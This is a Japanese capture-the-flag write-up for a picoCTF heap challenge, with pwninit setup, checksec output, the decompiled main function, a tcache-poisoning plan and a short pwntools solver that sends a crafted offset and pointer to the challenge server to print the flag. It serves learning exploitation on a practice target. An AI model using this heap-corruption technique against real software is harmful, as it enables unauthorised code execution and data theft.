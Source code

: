 # catch me outside
## ローカルで動かない
[pwninit](https://github.com/io12/pwninit/releases/download/3.3.1/pwninit )を使用して解決
```bash 
wget https://github.com/io12/pwninit/releases/download/3.3.1/pwninit 
chmod +x pwninit
./pwninit
```

## checksec
```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

## デコンパイル
main関数のアセンブラがやたら長いのでデコンパイル。
以下のようになった。
```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined value_input;
  int address_input;
  int i;
  undefined8 *local_a0;
  undefined8 *correct_str;
  FILE *flag_fd;
  undefined8 *fail_str;
  void *local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined local_60;
  char flag_txt [72];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  flag_fd = fopen("flag.txt","r");
  fgets(flag_txt,0x40,flag_fd);
  local_78 = 0x2073692073696874;
  local_70 = 0x6d6f646e61722061;
  local_68 = 0x2e676e6972747320;
  local_60 = 0;
  local_a0 = (undefined8 *)0x0;
  for (i = 0; i < 7; i = i + 1) {
    correct_str = (undefined8 *)malloc(0x80);
    if (local_a0 == (undefined8 *)0x0) {
      local_a0 = correct_str;
    }
    *correct_str = 0x73746172676e6f43;
    correct_str[1] = 0x662072756f592021;
    correct_str[2] = 0x203a73692067616c;
    *(undefined *)(correct_str + 3) = 0;
    strcat((char *)correct_str,flag_txt);
  }
  fail_str = (undefined8 *)malloc(0x80);
  *fail_str = 0x5420217972726f53;
  fail_str[1] = 0x276e6f7720736968;
  fail_str[2] = 0x7920706c65682074;
  *(undefined4 *)(fail_str + 3) = 0x203a756f;
  *(undefined *)((long)fail_str + 0x1c) = 0;
  strcat((char *)fail_str,(char *)&local_78);
  free(correct_str);
  free(fail_str);
  address_input = 0;
  value_input = 0;
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&DAT_00400b48,&address_input);
  printf("Value: ");
  __isoc99_scanf(&DAT_00400b53,&value_input);
  *(undefined *)((long)address_input + (long)local_a0) = value_input;
  local_80 = malloc(0x80);
  puts((char *)((long)local_80 + 0x10));
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

途中に出てくる長いhexは文字。  
`scanf`のフォーマットは`d`と`c`  

- `local_aO` = 0x6034a0
- 1つ目のtcache bin `0x603890` = 0x602088
- 2つ目のfreed chunk = `0x603800`
## 方針
`malloc`で確保されるチャンクを2回目に`free`されたチャンクにしたい
`tcache bins`の中に書いてあるアドレスを書き換えて、1回目に`free`されたチャンクの参照先を2回目に`free`されたチャンクのアドレスに書き換える

書き換えるアドレスは`local_a0`からの相対距離で指定することに注意してソルバーを作成する

## solver
```python
from pwn import *

# io = process("./heapedit_patched")
io = remote("mercury.picoctf.net", 31153)
io.recvuntil(b"Address")
address = str(0x6034A0 - 0x602088)
io.sendline(b"-" + address.encode())

io.recvuntil("Value")
io.sendline(p64(0x603800))
io.interactive()
```

flagを表示することができた
## 参考文献
https://sh0ebill.hatenablog.com/entry/2022/09/28/215346
